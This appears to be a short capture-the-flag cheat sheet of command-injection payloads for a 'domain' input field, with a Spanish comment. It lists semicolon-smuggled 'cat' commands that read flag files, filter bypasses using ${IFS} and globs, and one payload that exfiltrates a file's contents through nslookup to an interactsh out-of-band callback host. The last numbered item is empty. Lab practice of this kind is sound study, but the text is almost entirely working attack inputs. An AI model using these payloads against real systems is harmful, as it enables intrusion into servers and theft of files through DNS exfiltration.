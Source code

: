 0 domain=8.8.8.8;cat /0-flag.txt
1 domain=8.8.8.8;cat${IFS}/etc/1-flag.txt
2 google.com;cat${IFS}/*/*2-flag.txt
3 domain=8.8.8.8;cat /var/www/3-flag.txt|nslookup $(cat /var/www/3-flag.txt).ekvhsethiujkiilgmewv4zxvtsbzwtw7x.oast.fun
  donde dice -> ekvhsethiujkiilgmewv4zxvtsbzwtw7x.oast.fun cambialo por el tuyo esto lo obtine en https://app.interactsh.com/#/ y se ve asi
4 